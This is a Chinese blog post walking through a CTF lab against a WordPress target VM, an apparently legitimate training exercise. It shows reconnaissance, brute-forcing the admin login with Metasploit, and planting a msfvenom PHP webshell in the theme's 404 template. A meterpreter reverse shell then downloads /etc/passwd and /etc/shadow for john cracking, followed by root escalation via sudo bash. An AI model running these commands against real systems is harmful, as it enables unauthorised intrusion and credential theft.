 <!--yml
category: 未分类
date: 2022-04-26 14:30:35
-->

# ctf训练 web安全暴力破解_爱吃香菜的哈哈的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43799246/article/details/110562957](https://blog.csdn.net/qq_43799246/article/details/110562957)

## ctf训练 web安全暴力破解

**暴力破解漏洞介绍**

穷举法的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解;若全部情况验证后都不符合题目的全部条件，则本题无解。穷举法也称为枚举法。

Web安全中的暴力破解也是利用尝试所有的可能性最终获取正确的结果。

**实验环境**

一台kail攻击机 和 靶机
靶机镜像：[https://pan.baidu.com/s/1jitlWbjJHfyzfvPEBVDhUw](https://pan.baidu.com/s/1jitlWbjJHfyzfvPEBVDhUw)
提取码：x8cc

安装打开靶机（使用Oracle VM VirtualBox打开）：
（注意：靶机用桥接模式则攻击机也用桥接模式，注意检查！！！！）

接下来发现没法登陆，也没有办法获取ip地址
所以我们在kail下
进入控制台

使用netdiscover命令 netdiscover -r ip/子网掩码 命令来探测靶机，靶机ip为192.168.43.46
![在这里插入图片描述](img/1480610dea4cfd3781d2fd59bf549eef.png)本机ip为192.168.43.96
![在这里插入图片描述](img/44a3dcfa577e9ef8401d4462f3551aaf.png)

**信息探测**

扫描主机服务信息以及服务版本
– nmap -sV靶场IP地址
![在这里插入图片描述](img/ea47bcc506d771fd4e0b170e5caffe8d.png)

快速扫描主机全部信息
– nmap -T4 -A -v靶场IP地址

![在这里插入图片描述](img/2f7499906c0f5b2290385785ae2c6ddc.png)

探测敏感信息
– nikto -host http://靶场lP地址:端口
![在这里插入图片描述](img/21b6f5c1435907ea6e20fc2b52762e5c.png)
**深入挖掘**

分析nmap .nikto扫描结果，并对结果进行分析，挖掘可以利用的信息;

在这里发现可疑目录`/secret/`
![在这里插入图片描述](img/8d503c11dbad7be8cc46ab5d5084a295.png)

使用浏览器打开http:/ /ip:port/敏感页面，查看敏感信息，找到可利用的位置;

这里http默认端口号为80，所以端口号可以省略不加
![在这里插入图片描述](img/c2a13fea247d46cea3afc3dbbc1b4e27.png)发现一个login，于是点击
![在这里插入图片描述](img/e745459acd3032c971c22909ce389e4a.png)发现了一个登录界面，所以我们就想着找用户名和密码
![在这里插入图片描述](img/2e8f6f75dc750d92a3882f4505d4a42f.png)
**暴力破解**

首先使用wpscan对用户名进行枚举
![在这里插入图片描述](img/115bbd3d976f97f2965d0271cac34f82.png)![在这里插入图片描述](img/b9c7690e432af8de898d12f661fa81e2.png)
![在这里插入图片描述](img/c5004254485fdfa7968c07f48bb956fe.png)
使用上面得到的信息，查看用户名
![在这里插入图片描述](img/cb2435bd0d78028db65e5c34e92f83ff.png)
得到用户名为admin

接下来启动Metasploit -> msfconsole

选择模块
msf > use auxiliary/scanner/http/wordpress_login_enum
![在这里插入图片描述](img/f47e27f3c8530edfd1029e440aebed2f.png)show options 查看参数
![在这里插入图片描述](img/d94b65ed044ad3fb5de9069b7fca7b01.png)
设置我们已知的用户名

msf auxiliary(wordpress_login_enum) > set username admin
![在这里插入图片描述](img/f2f24ef2a190817c5ddfed3fa879b267.png)

设置密码文件

msf auxiliary(wordpress_login_enum) > set pass_file /usr/share/wordlists/dirb/common.txt
![在这里插入图片描述](img/54f0db30d411bfde8848dc7b4b7d60cd.png)

设置目标url
msf auxiliary(wordpress_login_enum) > set targeturi secret/
![在这里插入图片描述](img/f86f949176f0f62dc48a826fc58fb94e.png)设置目标ip

msf auxiliary(wordpress_login_enum) > set rhosts 靶机ip
![在这里插入图片描述](img/18327f8d8841792740d137c022721112.png)
运行，开始破解

msf auxiliary(wordpress_login_enum) > run
![在这里插入图片描述](img/c50e2d9da5571184f356597f62eb842b.png)
破解成功，得到密码也是admin

使用破解好的密码登录系统

![在这里插入图片描述](img/0a4872b7b865b9f1e8538d58b6e33597.png)进入后台
![在这里插入图片描述](img/3e3bb02d58ff38b2592e23607f92f74c.png)
**上传webshell获取控制权**

制作webshell
使用msfvenom制作shell代码，将代码复制下来
![在这里插入图片描述](img/dac7456842cc95cacb63ea664e014ba1.png)

wordpress后台寻找上传点
appearance的editor，然后再点击右侧的404 Template，将代码替换为shell代码

![在这里插入图片描述](img/b9f6c2952ee4b0336dcebc683a7e3b63.png)

```
退出当前模块
back

使用监听模块
use exploit/multi/handler

设置为php模式
set payload php/meterpreter/reverse_tcp

查看参数
show options

设置kali的ip
set LHOST 本机ip

开始监听
run 
```

执行shell，获取反弹shell。

http: //靶场IP/secret/wp-content /themes/twentysevernteen /404.php
![在这里插入图片描述](img/ed09a24c4442c9e4e545882ce7de712f.png)![在这里插入图片描述](img/0f21e89e234e0a857176c026a17fb6df.png)

查看系统信息 sysinfo

查看用户权限id

![在这里插入图片描述](img/4d528ea0a7f43ae8dde79b93b25dbe32.png)
**root权限**

– Metasploit中利用返回shell 下载
download /etc/passwd
download /etc/shaclow
![在这里插入图片描述](img/a943e0837a8e66368f6c84683a81e948.png)

–将文件转换为join可以识别的文件格式

unshadow passwd shadow > cracked

– 使用john破解密码
john cracked
得到用户名marlinspike和密码marlinspike
![在这里插入图片描述](img/abcdf4224ba34af5e3a09c96cd898239.png)优化终端
python -c “import pty;pty.spawn(’/bin/bash’)”
![在这里插入图片描述](img/bcc61000ce233ea72482348fe5a0f9ce.png)![在这里插入图片描述](img/a99d102add7b540898390028e488d362.png)

```
切换到marlinspike用户
su - marlinspike

查看权限
sudo -l

提权
sudo bash 
```

![在这里插入图片描述](img/48f265923b2000baafa67c67487577c6.png)
**获取Flag**

一般情况下，靶场机器的flag值是存放在服务器的根目录下，/root/目录。

cd /root/
ls
cat flag

![在这里插入图片描述](img/4b2c985451db6b74db134a243f997815.png)
这个靶机下没有flag值，结束！！！

**`总结`**

提权时可以抓取/etc/passwd和/etc/shadow，之后使用join来破解对应的密码，然后使用对应的用户名密码提升root权限;

对于wp的渗透中，启动对应的主题，然后在404页面上传shell ;